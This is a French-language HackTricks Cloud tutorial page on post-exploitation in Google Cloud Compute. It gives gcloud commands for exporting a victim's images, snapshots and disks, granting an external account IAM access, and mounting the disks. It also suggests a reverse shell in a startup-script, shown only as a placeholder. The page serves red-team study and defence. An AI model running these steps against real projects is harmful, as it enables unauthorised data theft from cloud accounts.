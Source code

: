 # GCP - Post-Exploitation Compute

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Équipe Rouge AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Équipe Rouge GCP (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## Compute

Pour plus d'informations sur Compute et VPC (Réseautage), consultez :

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exporter et inspecter les images localement

Cela permettrait à un attaquant de **accéder aux données contenues dans des images déjà existantes** ou **de créer de nouvelles images de VMs en cours d'exécution** et d'accéder à leurs données sans avoir accès à la VM en cours d'exécution.

Il est possible d'exporter une image de VM vers un bucket, puis de la télécharger et de la monter localement avec la commande :

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Avant d'effectuer cette action, l'attaquant pourrait avoir besoin de privilèges sur le bucket de stockage et certainement **de privilèges sur cloudbuild**, car c'est le **service** qui sera demandé pour effectuer l'exportation.\
De plus, pour que cela fonctionne, le SA codebuild et le SA compute ont besoin de permissions privilégiées.\
Le SA cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` a besoin de :

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Et le SA `<project-id>-compute@developer.gserviceaccount.com` a besoin de :

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exporter et inspecter les instantanés et disques localement

Il n'est pas possible d'exporter directement des instantanés et des disques, mais il est possible de **transformer un instantané en disque, un disque en image** et, suivant la **section précédente**, d'exporter cette image pour l'inspecter localement.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspecter une image en créant une VM

Dans le but d'accéder aux **données stockées dans une image** ou à l'intérieur d'une **VM en cours d'exécution** depuis laquelle un attaquant **a créé une image,** il est possible d'accorder à un compte externe l'accès à l'image :
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
et ensuite créer une nouvelle VM à partir de cela :
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Si vous ne pouviez pas donner l'accès à votre compte externe via l'image, vous pourriez lancer une VM en utilisant cette image dans le projet de la victime et **faire exécuter un reverse shell par les métadonnées** pour accéder à l'image en ajoutant le paramètre :
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspecter un instantané/Disque en l'attachant à une VM

Avec l'objectif d'accéder aux **données stockées dans un disque ou un instantané, vous pourriez transformer l'instantané en disque, un disque en image et suivre les étapes précédentes.**

Ou vous pourriez **accorder l'accès à un compte externe** sur le disque (si le point de départ est un instantané, donner l'accès à l'instantané ou créer un disque à partir de celui-ci) :
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Attacher le disque** à une instance :
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montez le disque à l'intérieur de la VM :

1.  **SSH dans la VM** :

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifiez le disque** : Une fois à l'intérieur de la VM, identifiez le nouveau disque en listant les périphériques de disque. En général, vous pouvez le trouver sous `/dev/sdb`, `/dev/sdc`, etc.
3. **Formatez et montez le disque** (s'il s'agit d'un nouveau disque ou d'un disque brut) :
*   Créez un point de montage :

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Montez le disque :

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Si vous **ne pouvez pas donner accès à un projet externe** au snapshot ou au disque, vous devrez **effectuer ces actions à l'intérieur d'une instance dans le même projet que le snapshot/disque**.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Vérifiez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

